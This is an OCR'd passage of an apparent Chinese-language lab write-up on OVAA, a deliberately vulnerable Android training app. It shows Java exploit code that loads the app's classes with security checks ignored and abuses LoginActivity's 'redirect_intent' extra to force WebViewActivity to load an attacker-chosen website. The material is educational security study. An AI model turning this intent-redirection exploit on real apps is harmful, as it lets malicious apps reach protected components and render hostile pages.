 ```
        //and a class loader first
        Context icontext = null;
        try {
            icontext = createPackageContext("oversecured.ovaa",Context.CONTEXT_INCLUDE_CODE|Context.CONTEXT_IGNORE_SECURITY);
        } catch (PackageManager.NameNotFoundException e) {
            e.printStackTrace();
        }Class iclass = null;
        try {
            iclass = icontext.getClassLoader().loadClass("oversecured.ovaa.activities.WebViewActivity");
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }//Intended solver 1-> declare component and the class manually
        //Intent redirectintent = new Intent(icontext,iclass);//intended solver 2
        Intent redirectintent = new Intent();//this is solver 1, but it's not required for solver 2
        redirectintent.setClassName("oversecured.ovaa","oversecured.ovaa.activities.WebViewActivity");
        redirectintent.putExtra("url", "[https://petircysec.com/](https://petircysec.com/)");Intent loginintent = new Intent("oversecured.ovaa.action.LOGIN");
        loginintent.setClassName("oversecured.ovaa","oversecured.ovaa.activities.LoginActivity");
        loginintent.putExtra("redirect_intent",redirectintent);
        startActivity(loginintent);
    }
}
```

**打开恶意应用程序会将我们重定向到 extra `url`中加载的网站。过度安全的 APK 将渲染我们的恶意网站。**
